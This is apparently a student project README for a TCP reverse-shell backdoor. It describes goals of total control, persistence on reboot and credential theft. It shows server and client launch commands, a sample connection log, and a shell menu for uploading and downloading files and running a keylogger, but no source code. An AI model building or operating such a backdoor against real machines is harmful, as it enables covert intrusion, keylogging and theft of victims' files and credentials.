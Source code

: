 <img src="https://d2z6c3c3r6k4bx.cloudfront.net/uploads/event/logo/1061432/a991d937097e8176adf1ea7196beb80f.png">
<hr>

### Backdoor Project

This project consist in create a bind between two machines and take total control like a shadow. This program shows a connection Client / Server into a Network Enterprise. In any Network connection only needs an input door to scale until to get relevant information. However, a Backdoor can create multiple connections and it can take possession of assets more important of an enterprise and so the attacker can go and go out anytime.<br>

But in this project, the connection will be only one to one (client / server) with a tcp protocol and introduces malware to get credentials.<br><br>

### Objetive

<hr>
1. Take total control of machine<br>
2. Persisten on Reboot<br>


### Specifer

<hr>

### RUN Backdoor:

<hr>

On Server machine:

```
$ ./server_shell
[+] Listening for Incommig Connections...

```

On Client machine:

```
$ ./reverse_shell
```

Server and Client connected

```
$ ./server_shell
[+] Listening for Incommig Connections...
[+] Connection established from: 
[+] Address: 192.168.1.55
[+] port: 46020
[+] Connected
Linux@127.0.0.1#
```

### Commands Shell

```
$ cd      --> Get current directory
$ curr    --> Current directory
$ run     --> Execute a program
$ upload  --> Upload a File to Client
$ downlod --> Downlod a File to Server
$ exit    --> Finish shell
```

```
Linux@127.0.0.1# cd ../            # Before directory
```

```
Linux@127.0.0.1# curr              # Current directory
/home/ubuntu/
```

```
Linux@127.0.0.1# run keylogger     # Program in Linux/Windows
```

```
Linux@127.0.0.1# upload [File]
```

```
Linux@127.0.0.1# download [File]
```

```
Linux@127.0.0.1# exit
$
```

* And basic commands of Linux and Windows terminal
<br>

### Contributors
<hr>
Giovanny Ortegon - 934@holbertonschool.com<br>
Joseph Delgadillo - Author<br>

### Bibligraphy

<hr>
Master Ethical Hacking with Python - Joseph Delgadillo<br>
Hands-on Network programming with C - Lewis Van Winkle<br>
Penetration testing with Shellcode - Hamza Megahed<br>
Pentester Academy - Vivek Ramachandran</li>
<hr>
Copyright &copy;2020 - Giovanny Ortegon - twitter: <a href="https://twitter.com/__sklgio__">@__sklgio__</a>
